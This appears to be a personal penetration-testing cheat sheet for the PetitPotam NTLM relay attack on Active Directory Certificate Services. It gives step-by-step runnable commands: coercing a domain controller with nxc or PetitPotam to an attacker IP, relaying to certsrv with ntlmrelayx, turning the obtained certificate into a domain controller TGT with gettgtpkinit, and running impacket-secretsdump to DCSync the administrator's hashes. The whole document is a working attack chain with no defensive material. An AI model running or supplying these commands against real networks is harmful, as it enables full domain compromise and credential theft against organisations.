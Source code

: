 ```yaml
---
tags:
  - AD
---
```


## Attack requirements
|   |   |   |
|---|---|---|
|Feature / Component|Required for PetitPotam|Required for Full Relay to DA via AD CS|
|EFSRPC|✅ Yes|✅ Yes|
|NTLM Enabled|✅ Yes|✅ Yes|
|SMB/LDAP Signing Disabled|✅ Yes (on relay target)|✅ Yes (on certsrv or LDAP)|
|AD CS Installed|❌ No|✅ Yes|
|Vulnerable AD CS Template|❌ No|✅ Yes|
|EPA / Channel Binding Off|❌ No|✅ Yes|
## Identify
---
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```
shorthand
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o M=pe
```

## Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
## Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
OR coerce with nxc
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> M=pe
```

You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
```PowerShell
python3 /opt/PKINITtools/gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```
